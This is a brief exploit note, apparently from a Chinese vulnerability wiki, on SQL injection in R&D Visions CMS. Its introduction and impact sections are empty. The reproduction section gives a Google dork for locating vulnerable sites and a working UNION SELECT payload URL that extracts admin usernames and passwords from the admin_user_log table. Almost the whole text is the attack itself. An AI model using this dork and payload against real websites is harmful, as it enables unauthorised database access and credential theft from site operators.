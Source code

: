 ```yaml
---
title: "R&D Visions CMS SQL Injection"
id: zhfly3101
---
```


# R&D Visions CMS SQL Injection

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

Google Dork:

```
intext:"Website by R&D Visions" inurl:.php?id= `intext:“CMS System by R&D Visions”` 
```

Demo:

```
https://www.0-sec.org/home.php?newid=53[SQLi] 
```

Injection:

```
https://www.0-sec.org/home.php?newid=-53+Union+Select+1,Group_ConCat(user,0x3a,pass),3,4,5,6,7,8,9,10,11,12+From+admin_user_log--+ 
```